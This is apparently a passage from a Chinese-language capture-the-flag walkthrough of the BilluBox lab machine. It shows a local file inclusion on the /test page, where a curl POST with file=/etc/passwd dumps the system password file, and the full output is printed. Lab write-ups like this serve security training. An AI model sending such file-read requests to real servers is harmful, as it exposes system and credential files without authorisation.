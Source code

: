`/test/`，页面提示说`file`参数为空

![image-20240310172525525](imgs/image-20240310172525525.png)

### POST文件包含

`http://10.10.10.28/test?file=/etc/passwd`，使用GET包含失败

![image-20240310172559020](imgs/image-20240310172559020.png)

POST包含成功读出`passwd`

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ curl -X POST -d "file=/etc/passwd" http://10.10.10.28/test    
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
```